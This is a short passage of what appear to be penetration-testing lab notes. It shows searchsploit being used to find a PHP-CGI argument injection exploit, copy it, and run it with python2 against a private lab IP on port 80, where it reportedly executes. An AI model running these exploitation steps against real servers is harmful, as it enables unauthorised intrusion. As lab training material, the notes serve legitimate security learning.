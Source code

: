 ![](.gitbook/assets/image-20230424150110254.png)

#### Manual/Script Exploitation

- Find an exploit

```bash
searchsploit php cgi
	PHP < 5.3.12 / < 5.4.2 - CGI Argument Injection | php/remote/18836.py
searchsploit -m 18836
python2 18836.py 10.2.20.205 80
# It executes
```

![python2 18836.py 10.2.20.205 80](.gitbook/assets/image-20230424150454511.png)